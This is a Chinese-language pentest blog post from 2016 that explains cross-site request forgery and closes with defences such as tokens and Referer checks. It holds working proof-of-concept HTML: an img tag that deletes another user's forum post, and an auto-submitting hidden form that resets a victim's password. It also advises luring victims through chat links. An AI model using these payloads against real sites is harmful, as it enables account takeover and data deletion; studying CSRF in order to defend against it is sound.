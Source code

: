 +++
date = "2016-06-28T09:21:34+08:00"
description = ""
draft = false
tags = ["csrf"]
title = "CSRF"
topics = ["Pentest"]

+++

### 0x00 概念
> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;当你登陆某个网站时，通常浏览器与网站都会形成一个会话，在会话没有结束时你可以执行发表文章、发邮件、
删除文章等操作，若会话结束，你再操作的话会提示你会话已经结束，请重新登陆。  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;CSRF就是：攻击者通过一些技术手段欺骗用户的<font color="FF0000">浏览器</font>去<font color="FF0000">访问</font>一个自己曾<font color="FF0000">认证过</font>的网站并<font color="FF0000">执行某些操作</font>。也可以说CSRF就是黑客利用受害者的Cookie骗取服务器的信任从而执行某些操作

### 0x01 利用
* 利用条件
    * 攻击者可以得知url的所有参数项并了解其含义
    * 诱导用户访问构造好的POC

* 利用地方
    * 操作是有意义的(比如:修改密码等)
    * 验证过于简单(参数固定、我们可以设置参数)

### 0x02 GET型CSRF攻击
> ```
若有论坛www.aa.com，论坛删除文章的操作是请求类似
http://www.aa.com/opt.php?id=135&act=del&name=Tom的链接
```
> ```
有用户A，他登陆了论坛，且有篇文章id为251，那么他的浏览器此时已经取得了论坛的信任
```
> ```
此时有hacker用户B，他构造了一个html为b.html，b.html内容如下：
<html>
<head>
    <title>test</title>
</head>
<body>
    <img src="http://www.aa.com/opt.php?id=251&act=del&name=A" />
</body>
</html>
将b.html放在他自己搭建的网站上，网址为http://www.bb.com/b.html
```
```
恶意用户B将链接http://www.bb.com/b.html通过qq发送给用户A，
诱使他访问，用户A一旦访问，他id为251的文章就会被删除
```

### 0x03 POST型CSRF攻击
> 若网站www.xx.com有让用户修改密码的功能，但验证过于简单，形如下图：
{{% fluid_img src="/img/post/csrf_post.png" alt="csrf_post利用.png" %}}
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>aa</title>
</head>
<body>
    <form action="http://172.23.10.200/setpasswd.php" method="post">
        昵称：<input type="text" name="nickname" id="nickname" value="xxxxx">
        用户名：<input type="text" name="name" id="name" value="xiaoming">
        密码：<input type="passwd" name="passwd" id="passwd" value="">
        确认密码：<input type="rpasswd" name="rpasswd" id="rpasswd" value="">
        <input type="submit" name="button" value="提交">
    </form>
</body>
</html>
```
此时我们就可以构造自动提交表单的xxxx.html，内容如下：
```html
<html>
<head>
    <title>aa</title>
</head>
<body>
    <form name="csrf" action="http://172.23.10.200/setpasswd.php" method="post">
        <input type="hidden" name="passwd" id="passwd" value="666666">
        <input type="hidden" name="rpasswd" id="rpasswd" value="666666">
    </form>
    <script>
        setTimeout("document.csrf.submit()",100);
    </script>
</body>
</html>
```
然后将连接http://www.bb.com/xxxx.html 发送给用户,诱使他点击链接,一旦他点击,则密码就会被修改

### 0x04 防御：
* 对于修改密码的表单可以要求输入原密码  
* 二次确认(如删除用户、转账等重要操作弹窗要求用户确认)
* Token认证  
    * GET操作请求：可以在Cookie中存储Token  
    * POST操作请求：可以在form表单中添加一个隐藏的input标签，value值为Token
* 验证Referer
